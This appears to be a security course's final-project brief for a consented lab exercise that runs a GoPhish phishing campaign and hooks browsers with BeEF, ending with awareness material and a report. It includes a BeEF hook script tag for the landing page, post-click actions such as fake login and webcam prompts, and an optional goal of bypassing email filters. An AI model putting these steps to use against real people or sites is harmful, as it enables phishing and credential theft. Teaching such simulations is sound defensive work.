 ## Final Project: Human Weakness Exploitation via BeEF & GoPhish  
**Theme**: *Simulating Phishing and Post-Click Exploitation*

### **Objectives**

- Design a targeted phishing campaign.
- Capture clicks and interaction data via GoPhish.
- Use BeEF to hook a browser and demonstrate what an attacker could do post-click.
- Create a report + awareness material explaining the attack and how to prevent it.

---

### **Project Steps**

#### 1. Set Up Lab Environment
- Kali Linux with:
  - BeEF installed (`/usr/share/beef-xss`)
  - GoPhish (download from [https://github.com/gophish/gophish](https://github.com/gophish/gophish))
- Optional: Metasploitable VM or any sandboxed target for realism
- Ensure all testing is done in a **contained environment with full consent**.

---

#### 2. GoPhish Campaign Setup
- Create a **phishing email** with:
  - A believable message (e.g., "Important Update Required")
  - A link to a fake login page or document portal

- Landing page should include the **BeEF hook**:
  ```html
  <script src="http://<your-kali-ip>:3000/hook.js"></script>
  ```

- Start GoPhish, configure your SMTP settings, and launch the campaign.


#### 3. BeEF Exploitation Phase
- Once the user lands on the page, BeEF will show a **hooked browser**.
- Demonstrate basic post-exploitation:
  - Alert box
  - Browser fingerprinting
  - Fake login prompt
  - Webcam prompt (but **do not use** it unless it's your own machine)

#### 4. Metrics to Collect
- Emails sent / opened
- Links clicked
- Hooked sessions in BeEF
- Commands successfully run in BeEF
- Time-to-click stats

#### 5. Awareness & Defense Material
Explain student/team must create:
  - How this attack works
  - Red flags to watch for
  - Technical and non-technical defenses (e.g., email filtering, user training, browser hardening)


#### 6. Final Report
- Executive Summary
- Attack Simulation Details
- Ethical Boundaries Maintained
- GoPhish Campaign Overview
- BeEF Post-Click Actions
- Defense Recommendations

### Ethics & Rules
- No phishing real users without explicit consent
- No persistence, malware, or real data exfiltration
- All email recipients must be part of the exercise and aware of the simulation either before or immediately after
- Hooked browsers must be student-owned or lab machines


- Integrate a **custom payload** in BeEF
- Bypass a basic email filter or browser security warning (safely)
- Create a **mock SOC alert** based on the campaign
